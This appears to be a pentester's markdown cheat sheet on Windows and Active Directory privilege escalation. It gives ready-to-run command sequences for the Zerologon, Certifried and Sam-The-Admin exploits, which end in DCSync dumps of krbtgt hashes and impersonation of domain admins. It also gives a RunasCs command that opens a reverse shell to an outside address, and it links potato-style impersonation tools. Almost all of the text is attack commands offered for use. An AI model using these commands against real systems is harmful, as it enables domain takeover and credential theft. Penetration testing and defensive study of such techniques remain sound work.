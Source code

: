 # Local Windows Privilege Escalation

## CVE-2020-1472 : Zero Logon
PoC based on this link : <https://github.com/dirkjanm/CVE-2020-1472>
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : <https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html>
By default, a user can create at least 10 computers. To verify this, check if ms-DS-MachineAccountQuota > 0 :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP getObjectAttributes 'DC=domain,DC=local' ms-DS-MachineAccountQuota
```
If it's okay, just add a computer with bloodyAD :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP addComputer COMPUTER_NAME 'COMPUTER_PASSWORD'
```
Then, set the dNSHostname attribute of your machine to match the domain controller one (for exemple DC.domain.local) :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP setAttribute 'CN=COMPUTER_NAME,CN=Computers,DC=domain,DC=local' dNSHostName '["DC.domain.local"]'
```
Use certipy to request a certificate for the computer, using default 'Machine' template & ADCS IP address. This will create a .pfx file, corresponding to the certificate issued by the CA :
```bash
certipy req 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD@ADCS_IP' -template Machine -dc-ip DC_IP -ca CA_NAME
```
Then, use certipy tool to get a TGT by using a Kerberos authentication (PKINIT), using the certificate :
```bash              
certipy auth -pfx ./DC.pfx -dc-ip 10.100.10.12
```
If it works, go to "HERE" section. Otherwise, use RBCD technique from bloodyAD. It will set up delegation rights :
```bash
openssl pkcs12 -in DC.pfx -out DC.pem -nodes
python3 bloodyAD.py -d domain.local  -c ":DC.pem" -u 'COMPUTER_NAME$' --host DC_IP setRbcd 'COMPUTER_NAME$' 'DC_NAME$'
```
Then, try to impersonate a domain admin using impacket :
```bash
impacket-getST -spn LDAP/DC.DOMAIN.LOCAL -impersonate ADMIN_NAME -dc-ip DC_IP 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD'
```
HERE - You'll get either the .ccache file (TGT) or the NT Hash. If you get the NT Hash, you know what to do next ;). It's linked to the DC computer account, so normally, you're admin. To use .ccache file :
```bash
cp XXXX.ccache /tmp/
export KRB5CCNAME=/tmp/XXXX.ccache
```
Finally, use impacket to perform a DCSync with the exported TGT :
```bash
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'domain.local/XXXX@DC.domain.local' -k -no-pass -dc-ip DC_IP -target-ip IP_ADDRESS 
```

## CVE-2021-42278 & CVE-2021-42287 : Sam-The-Admin
Impersonate DA from standard domain user. Based on <https://github.com/WazeHell/sam-the-admin>
```bash
python3 sam_the_admin.py -domain-netbios NETBIOS_NAME -dc-ip IP_DC -shell 'DOMAIN/USERNAME:PASSWORD'
```

## RunAs
If you get a revershell a something and you have credentials of another user, just use this tool : https://github.com/antonioCoco/RunasCs/tree/master. You will get a proper reverse shell executed by the specified user.
```powershell
RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
```

## Abusing SeImpersonatePrivilege
Use these tools :
https://github.com/itm4n/PrintSpoofer
https://github.com/antonioCoco/JuicyPotatoNG
